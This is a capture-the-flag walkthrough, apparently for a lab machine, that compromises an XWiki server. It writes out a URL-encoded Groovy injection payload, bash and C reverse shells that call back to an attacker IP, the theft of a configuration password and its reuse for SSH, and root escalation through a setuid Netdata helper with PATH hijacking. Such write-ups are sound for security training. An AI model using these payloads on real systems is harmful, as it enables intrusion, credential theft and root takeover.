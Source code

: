 Let's scan the car
```bash
sudo nmap -v -sC -sV 10.10.11.80 -oN nmap/initial
```
```
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_ 256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open http nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://editor.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
8080/tcp open http Jetty 10.0.20
|_http-server-header: Jetty(10.0.20)
| http-webdav-scan:
| Server Type: Jetty(10.0.20)
| WebDAV type: Unknown
|_ Allowed Methods: OPTIONS, GET, HEAD, PROPFIND, LOCK, UNLOCK
|_http-open-proxy: Proxy might be redirecting requests
| http-title: XWiki - Main - Intro
|_Requested resource was http://10.10.11.80:8080/xwiki/bin/view/Main/
| http-methods:
| Supported Methods: OPTIONS GET HEAD PROPFIND LOCK UNLOCK
|_ Potentially risky methods: PROPFIND LOCK UNLOCK
| http-cookie-flags:
| /:
| JSESSIONID:
|_ httponly flag not set
| http-robots.txt: 50 disallowed entries (15 shown)
| /xwiki/bin/viewattachrev/ /xwiki/bin/viewrev/
| /xwiki/bin/pdf/ /xwiki/bin/edit/ /xwiki/bin/create/
| /xwiki/bin/inline/ /xwiki/bin/preview/ /xwiki/bin/save/
| /xwiki/bin/saveandcontinue/ /xwiki/bin/rollback/ /xwiki/bin/deleteversions/
| /xwiki/bin/cancel/ /xwiki/bin/delete/ /xwiki/bin/deletespace/
|_/xwiki/bin/undelete/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
<div style="page-break-after: always;"></div>

Let's go to the site

![image](images/20250804155001.png)

There is a `Docs` button. Let's click on it

![image](images/20250804155046.png)

`XWiki Debian 15.10.8` opens. Let's try to find vulnerabilities for it.
There is [XWiki Platform 10/15/10 - Remote Code Execution](https://www.exploit-db.com/exploits/52136).
This exploit has this code block:
```Python
# Exploit function
def exploit(target_url):
target_url = detect_protocol(target_url.replace("http://",
"").replace("https://", "").strip())
exploit_url =
f"{target_url}/bin/get/Main/SolrSearch?media=rss&text=%7d%7d%7d%7b%7basync%20async%3dfalse%7d%7d%7b%7bgroovy%7d%7dprintln(%22cat%20/etc/passwd%22.execute().text)%7b%7b%2fgroovy%7d%7d%7b%7b%2fasync%7d%7d"
```
Here's what sent:
```bash
}}}{{async async=false}}{{groovy}}println("cat /etc/passwd".execute().text){{/groovy}}{{/async}}
```
Let's try to follow the link
```
http://wiki.editor.htb/xwiki/bin/get/Main/SolrSearch?media=rss&text=%7d%7d%7d%7b%7basync%20async%3dfalse%7d% 7d%7b%7bgroovy%7d%7dprintln(%22cat%20/etc/passwd%22.execute().text)%7b%7b%2fgroovy%7d%7d%7b%7b%2fasync%7d%7d
```

![image](images/20250804155439.png)

The `SolrSearch.rss` file is downloaded. If you open it, you will see the contents of `/etc/passwd`

![image](images/20250804155844.png)

We see that there is a user `oliver`. This information will be needed in the future.
Now you need to run the command
```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.8/4444 0>&1'
```
to get a reverse shell. For this purpose in
```
http://wiki.editor.htb/xwiki/bin/get/Main/SolrSearch?media=rss&text=%7d%7d%7d%7b%7basync%20async%3dfalse%7d% 7d%7b%7bgroovy%7d%7dprintln(%22cat%20/etc/passwd%22.execute().text)%7b%7b%2fgroovy%7d%7d%7b%7b%2fasync%7d%7d
```
change `println(%22cat%20/etc/passwd%22.execute().text)` to `"bash -c 'bash -i >& /dev/tcp/10.10.14.8/4444 0>&1'"`. To do this, you need to encode this command in `Base64`:
```bash
echo -n "bash -c 'sh -i >& /dev/tcp/10.10.14.177/4444 0>&1'" | base64 -w0
```

![image](images/20250804160930.png)

```
YmFzaCAtYyAnc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTc3LzQ0NDQgMD4mMSc=%
```
The final command looks like this:
```bash
}}}{{async async=false}}{{groovy}}"bash -c {echo,YmFzaCAtYyAnc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTc3LzQ0NDQgMD4mMSc=}|{base64,-d}|{bash,-i}".execute(){{/groovy}}{{/async}}'
```
[Let's encode](https://www.urlencoder.org/) it in URL:
```
%7D%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7D%22bash%20-c%20%7Becho%2CYmFzaCAtYyAnc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTA uMTQuMTc3LzQ0NDQgMD4mMSc%3D%7D%7C%7Bbase64%2C-d%7D%7C%7Bbash%2C-i%7D%22.execute%28%29%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D%27
```
We paste the resulting string into **URL**
```bash
curl 'http://wiki.editor.htb:8080/xwiki/bin/get/Main/SolrSearch?media=rss&text=%7D%7D%7D%7B%7Basync%20async=false%7D%7D%7B%7Bgroovy%7D%7D%22bash%20-c%20%7Becho, YmFzaCAtYyAnc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTc3LzQ0NDQgMD4mMSc=%7D%7C%7Bb ase64,-d%7D%7C%7Bbash,-i%7D%22.execute()%7B%7B/groovy%7D%7D%7B%7B/async%7D%7D'
```
At the same time we listen port
```bash
sudo ncat -lvnp 4444
```

![image](images/20250804153012.png)

We got a reverse shell.
Stabilize the shell:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL + Z
stty raw -echo; fg
Enter twice, and
export TERM=xterm
```
There is a file `hibernate.cfg.xml` in `/usr/lib/xwiki/WEB-INF/`. It contained these lines:
```XML
<property name="hibernate.connection.url">jdbc:mysql://localhost/xwiki?useSSL=false&amp;connectionTimeZone=LOCAL&amp;allowPublicKeyRetrieval=true</property> 
	<property name="hibernate.connection.username">xwiki</property> 
	<property name="hibernate.connection.password">th--------am99</property> 
	<property name="hibernate.connection.driver_class">com.mysql.cj.jdbc.Driver</property> 
	<property name="hibernate.dbcp.poolPreparedStatements">true</property> 
	<property name="hibernate.dbcp.maxOpenPreparedStatements">20</property>
```
There is a password
```Password
th--------am99
```
Let's try to connect via **SSH** to `oliver`:

![image](images/20250804164155.png)

Let's check what services are running locally
```bash
netstat -lntp
```

![image](images/20250804182142.png)

`Netdata` is running on port `19999`. It has plugins that it can call and execute. Let's see what plugins there are:
```bash
ls -la /opt/netdata/usr/libexec/netdata/plugins.d
```

![image](images/20250804182036.png)

The `ndsudo` plugin is interesting here. Let's see what it can do:
```bash
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo -h
```

![image](images/20250804182509.png)

**set-uid root** is launched, checks whether the user is in the **netdata** group, searches for an "executable file" with the name specified in the **Executables** section of the **regular `PATH`** rule, forms the final `<executable> <Parameters>` line and executes it from **root**.

That is, you need to create a reverse shell, make it **executable**, add it to **PATH** and at the same time call `/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list`

To do this, we will make a reverse shell in `C`:
```C
#include <unistd.h>
int main() {
	setuid(0); setgid(0);
	execl("/bin/bash", "bash", "-c", "bash -i >& /dev/tcp/10.10.14.177/4444 0>&1", NULL);
	return 0;
}
```
Compile `nvme.c`:
```bash
gcc nvme.c -o nvme
```
Send this file to the machine in the directory `/tmp/nvme2`, which we created earlier:
```bash
sudo python3 -m http.server 80
```
Make it executable:
```bash
chmod +x nvme
```
Run the file and listen to the port at the same time:
```bash
PATH=/tmp/pwnbin:$PATH \
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
```
```bash
sudo ncat -lvnp 4444
```

![image](images/20250804181941.png)


![image](images/20250804181951.png)

